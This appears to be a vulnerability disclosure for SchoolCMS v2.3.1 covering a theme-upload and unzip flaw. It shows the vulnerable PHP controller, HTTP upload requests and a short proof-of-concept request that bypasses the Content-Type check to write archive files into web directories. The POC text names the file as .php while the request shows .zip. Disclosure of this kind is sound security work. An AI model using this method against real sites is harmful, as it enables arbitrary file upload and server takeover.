

# SchoolCMS v2.3.1 file upload and unzip vulnerability

#### Detail:



```http
POST /schoolcms/admin.php?m=admin&c=theme&a=upload HTTP/1.1
Host: 127.0.0.1
Content-Length: 502
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzvqqC1ZAHhAnw74R
Referer: http://127.0.0.1/schoolcms/admin.php?m=admin&c=theme&a=index&view_type=upload
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=tiamjbmuiknb087jko5umifkq0; think_language=zh-CN
Connection: close

------WebKitFormBoundaryzvqqC1ZAHhAnw74R
Content-Disposition: form-data; name="max_file_size"

51200000
------WebKitFormBoundaryzvqqC1ZAHhAnw74R
Content-Disposition: form-data; name="theme"; filename="test_Static.zip"
Content-Type: application/x-zip-compressed


```

c=theme -> Controller=theme, a=upload -> action=upload. /schoolcms/Application/Admin/Controller/ThemeController.class.php Line 180:

```php
	public function Upload()
	{
		// 是否ajax
		if(!IS_AJAX)
		{
			$this->error(L('common_unauthorized_access'));
		}

		// 文件上传校验
		$error = FileUploadError('theme');
		if($error !== true)
		{
			$this->ajaxReturn($error, -1);
		}

		// 文件格式化校验
		$type = array('application/zip', 'application/octet-stream');
		if(!in_array($_FILES['theme']['type'], $type))
		{
			$this->ajaxReturn(L('theme_upload_error'), -2);
		}

		// 开始解压文件
		$resource = zip_open($_FILES['theme']['tmp_name']);
		while(($temp_resource = zip_read($resource)) !== false)
		{
			if(zip_entry_open($resource, $temp_resource))
			{
				// 当前压缩包中项目名称
				$file = zip_entry_name($temp_resource);

				// 排除临时文件和临时目录
				if(strpos($file, '/.') === false && strpos($file, '__') === false)
				{
					// 拼接路径
					if(strpos($file, '_Html') !== false)
					{
						$file = $this->html_path.$file;
					} else if(strpos($file, '_Static') !== false)
					{
						$file = $this->static_path.$file;
					} else {
						continue;
					}
					$file = str_replace(array('_Static/', '_Html/'), '', $file);

					// 截取文件路径
					$file_path = substr($file, 0, strrpos($file, '/'));

					// 路径不存在则创建
					if(!is_dir($file_path))
					{
						mkdir($file_path, 0777, true);
					}

					// 如果不是目录则写入文件
					if(!is_dir($file))
					{
						// 读取这个文件
						$file_size = zip_entry_filesize($temp_resource);
						$file_content = zip_entry_read($temp_resource, $file_size);
						file_put_contents($file, $file_content);
					}
					// 关闭目录项  
					zip_entry_close($temp_resource);
				}
				
			}
		}
		$this->ajaxReturn(L('common_operation_success'));
	}
}
```

check Content-Type, default is "application/x-zip-compressed", not in array

```php
		// 文件格式化校验
		$type = array('application/zip', 'application/octet-stream');
		if(!in_array($_FILES['theme']['type'], $type))
		{
			$this->ajaxReturn(L('theme_upload_error'), -2);
		}
```

unzip, check filename, if filename does not contain "\_Html" or "\_Static" , it will Jump to the next loop.

```php
		while(($temp_resource = zip_read($resource)) !== false)
		{
			if(zip_entry_open($resource, $temp_resource))
			{
				// 当前压缩包中项目名称
				$file = zip_entry_name($temp_resource);

				// 排除临时文件和临时目录
				if(strpos($file, '/.') === false && strpos($file, '__') === false)
				{
					// 拼接路径
					if(strpos($file, '_Html') !== false)
					{
						$file = $this->html_path.$file;
					} else if(strpos($file, '_Static') !== false)
					{
						$file = $this->static_path.$file;
					} else {
						continue;
					}
```

html_path,static_path: Line 14

```php
	private $html_path;
	private $static_path;

	/**
	 * [_initialize 前置操作-继承公共前置方法]
	 * @author   Devil
	 * @blog     http://gong.gg/
	 * @version  0.0.1
	 * @datetime 2016-12-03T12:39:08+0800
	 */
	public function _initialize()
	{
		// 调用父类前置方法
		parent::_initialize();

		// 登录校验
		$this->Is_Login();

		// 权限校验
		$this->Is_Power();

		// 静态目录和html目录
		$this->html_path = 'Application'.DS.'Home'.DS.'View'.DS;
		$this->static_path = 'Public'.DS.'Home'.DS;
	}
```

DS: /schoolcms/core.php Line 47

```php
/* 定义系统目录分隔符 */
define('DS', DIRECTORY_SEPARATOR);
```

static_path = '\\Public\\Home\\'

Final write to file

```php
$file_size = zip_entry_filesize($temp_resource);
$file_content = zip_entry_read($temp_resource, $file_size);
file_put_contents($file, $file_content);
```

### POC:

set Content-Type=application/zip and filename=test_Static.php


```http
POST /schoolcms/admin.php?m=admin&c=theme&a=upload HTTP/1.1
Host: 127.0.0.1
Content-Length: 489
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzvqqC1ZAHhAnw74R
Referer: http://127.0.0.1/schoolcms/admin.php?m=admin&c=theme&a=index&view_type=upload
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=tiamjbmuiknb087jko5umifkq0; think_language=zh-CN
Connection: close

------WebKitFormBoundaryzvqqC1ZAHhAnw74R
Content-Disposition: form-data; name="max_file_size"

51200000
------WebKitFormBoundaryzvqqC1ZAHhAnw74R
Content-Disposition: form-data; name="theme"; filename="test_Static.zip"
Content-Type: application/zip


```

upload success:


